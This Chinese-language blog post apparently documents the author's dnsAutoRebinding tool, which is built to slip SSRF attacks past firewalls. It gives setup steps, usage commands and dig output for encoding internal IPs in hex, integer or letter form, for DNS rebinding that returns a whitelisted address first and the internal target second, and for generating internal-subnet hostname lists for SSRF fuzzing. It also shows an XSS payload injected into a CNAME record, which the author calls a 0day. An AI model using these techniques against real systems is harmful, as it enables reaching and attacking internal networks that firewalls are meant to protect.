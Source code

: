 ```yaml
---
layout: post
title: Dns Auto Rebinding
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf时难免会被防火墙拦截恶意返回值，使用过xip.io但效果一般。项目地址：
<a target="_blank" href="https://github.com/Tr3jer/dnsAutoRebinding">Github</a>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf、ssrf内网地址fuzz、dns二次rebinding、支持ipv4/ipv6、支持ip地址转换码、dns记录污染(文末一个0day为例)。脑图在脑子里，懒得画了。

support Record Type and Encoding：

```
MX = ipv4/ipv6/hex
A = ipv4/en/int/hex
AAAA = ipv6/int/hex
CNAME = ipv4/ipv6/hex
```

配置监听服务器example.com：

| record type | record | record value |
| --- | --- | --- |
| A | ns | server ip |
| NS | test | ns.example.com |

> sudo pip install ipaddr

修改lib/config.conf：
maindomain = test.example.com.
注意根地址.要加

```
Usage: sudo python main.py {Options}

Options:
  -h, --help            show this help message and exit
  -t 300, --TTL=300     ttl value , 0 By Default
  -y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX
                        Record Type , A By Default
  -e int/hex/en, --Encoding=int/hex/en
                        Record Encoding , None By Default
  -r, --Rebinding       The Second Time Query Return Target Ip
  -p "<script>alert(/xss/)</script>", --payload="<script>alert(/xss/)</script>"
                        Specified Record , Support CNAME/MX

```

-y选项指定以什么记录类型返回：

`-y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX Record Type , A By Default`

-t选项指定TTL值：

`-t 300, --TTL=300     ttl value , 0 By Default`

直接A记录返回ipv4地址：

`sudo ./main.py`

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50359
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		227	IN	NS	ns.example.com.
```

server:
`[21:54:16] client ip:44486 => A => 192.168.1.1.test.example.com.`

hex编码：

`sudo ./main.py -e hex`

```
➜  ~ dig 31302e302e302e31.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 31302e302e302e31.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1585
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;31302e302e302e31.test.example.com.	IN	A

;; ANSWER SECTION:
31302e302e302e31.test.example.com. 0 IN	A	10.0.0.1

;; AUTHORITY SECTION:
test.example.com.		600	IN	NS	ns.example.com.
```

server:
`[22:00:42] client ip:30150 => A => 31302e302e302e31.test.example.com.`

int编码：

`sudo ./main.py -e int`

```
➜  ~ dig 3232235777.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 3232235777.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 18066
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;3232235777.test.example.com.	IN	A

;; ANSWER SECTION:
3232235777.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		456	IN	NS	ns.example.com.
```

server:
`[22:03:00] client ip:5240 => A => 3232235777.test.example.com.`

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;因为waf会识别出内网地址才用的上本项目，那么waf大可识别进制转换这种，所以要自己写个地址转换方法：

num to en:

```
./lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]
bjckbgikbkb
```

`sudo ./main.py -e en`

```
➜  ~ dig bjckbgikbkb.test.example.com

; <<>> DiG 9.8.3-P1 <<>> bjckbgikbkb.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5115
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;bjckbgikbkb.test.example.com.	IN	A

;; ANSWER SECTION:
bjckbgikbkb.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		20	IN	NS	ns.example.com.
```

server:
`[22:10:22] client ip:8434 => A => bjckbgikbkb.test.example.com.`


dns二次rebinding:
```
sudo ./main.py -r
Input Safe Ip? [Address/Req By Default]8.8.8.8
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;选择性输入目标信任的地址，比如在ssrf时防火墙在验证dns返回值是否存在于白名单。默认为发起请求的地址。(记得特殊情况需要指定记录类型)


第一次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59544
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	8.8.8.8

;; AUTHORITY SECTION:
test.example.com.		461	IN	NS	ns.example.com.
```

第二次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45312
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		501	IN	NS	ns.example.com.
```

dns记录污染：

`sudo ./main.py -p "<script>alert(/xss/)</script>" -y CNAME`

```
➜  ~ dig test.example.com

; <<>> DiG 9.8.3-P1 <<>> test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5073
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;test.example.com.			IN	A

;; ANSWER SECTION:
test.example.com.		0	IN	CNAME	<script>alert\(/xss/\)</script>test.example.com.
```

![](http://blog-1252048719.cos.ap-shanghai.myqcloud.com/0day.png)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;这个怎么玩取决于你的小脑袋瓜的脑回路了。如果防火墙还要验证是否为信任地址的话修改lib/common.py：

```
elif payload != 'None' and payload.find(mainDomain) == -1:
    record = payload + "信任地址."
```

ipListBuild:
批量生成网段地址，选择性编码，适合ssrf内网地址fuzz。

```
python lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]2
[+] Please Input Segment Length [24 By Default]
[+] Please Input Encoding ['ipv4' By Default]hex
[+] Please Input Server Root Address [test.example.com By Default]
[+] Stored in the 20170625223912_test_example_com_hex.txt
[root@VM_34_252_centos dnsAutoRebinding]# head -n 5 20170625223912_test_example_com_hex.txt
3139322e3136382e312e31.test.example.com
3139322e3136382e312e32.test.example.com
3139322e3136382e312e33.test.example.com
3139322e3136382e312e34.test.example.com
3139322e3136382e312e35.test.example.com
```


